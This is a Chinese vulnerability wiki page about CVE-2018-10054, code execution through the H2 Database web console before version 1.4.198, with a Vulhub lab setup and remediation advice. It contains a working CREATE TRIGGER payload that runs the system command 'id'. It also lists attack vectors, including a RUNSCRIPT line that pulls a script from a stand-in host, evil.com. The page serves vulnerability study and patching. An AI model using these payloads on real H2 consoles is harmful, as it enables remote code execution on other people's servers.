


# H2 Database Web Console 认证远程代码执行漏洞 CVE-2018-10054

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：<1.4.198；远程控制台允许新库/内存库连接；lab1.4.197；脚本执行能力
- 证据范围：连接新内存库后执行SQL；不是必须持有既有数据库密码

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- P0 version字段误为docker compose up -d
- 标题及目录'认证'容易误解为必须已有凭据；正文实际使用攻击者新建库
- 缺少Java/JDK脚本引擎版本及触发查询说明
- 应区分控制台暴露/创建限制与具有管理员权限的正常SQL执行功能

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

H2 Database 是一个快速、开源的基于 Java 的关系型数据库管理系统（RDBMS），可用于嵌入式（集成在 Java 应用中）或客户端-服务器模式中。

当 Spring Boot 集成 H2 Database 时，如果设置如下选项，将会启用一个 Web 管理页面：

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

在 1.4.198 之前的 H2 Database 版本中，任何用户都可以通过创建新的数据库文件或连接到内存数据库来访问 Web 管理页面。认证通过后，攻击者可以通过以下命令之一执行任意代码：

- `RUNSCRIPT FROM 'http://evil.com/script.sql'`
- `CREATE ALIAS func AS code...; CALL func ...`
- `CREATE TRIGGER ... AS code...`

参考链接：

- https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html
- https://www.leavesongs.com/PENETRATION/talk-about-h2database-rce.html
- https://www.exploit-db.com/exploits/45506
- [h2database/h2database#1225](https://github.com/h2database/h2database/issues/1225)
- [h2database/h2database#1580](https://github.com/h2database/h2database/pull/1580)
- [h2database/h2database#1726](https://github.com/h2database/h2database/pull/1726)

## 漏洞影响

```
H2 Console < 1.4.198
```

## 环境搭建

Vulhub 执行如下命令启动一个集成了 H2 Database 1.4.197 版本的 Spring Boot：

```shell
docker compose up -d
```

容器启动后，Spring Boot 服务监听在 `http://your-ip:8080`，H2 管理页面默认地址为 `http://your-ip:8080/h2-console/`。

## 漏洞复现

首先，通过连接内存数据库登录 H2 Web 控制台：

```
jdbc:h2:mem:test
```




然后，执行如下命令以执行 `id` 命令：

```sql
CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
    var is = java.lang.Runtime.getRuntime().exec("id").getInputStream()
    var scanner = new java.util.Scanner(is).useDelimiter("\\A")
    throw new java.lang.Exception(scanner.next())
$$;
```

可见，`id` 命令被成功执行，结果以异常的形式被抛出：




## 漏洞修复

升级至最新版本： https://github.com/h2database/h2database/releases/


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
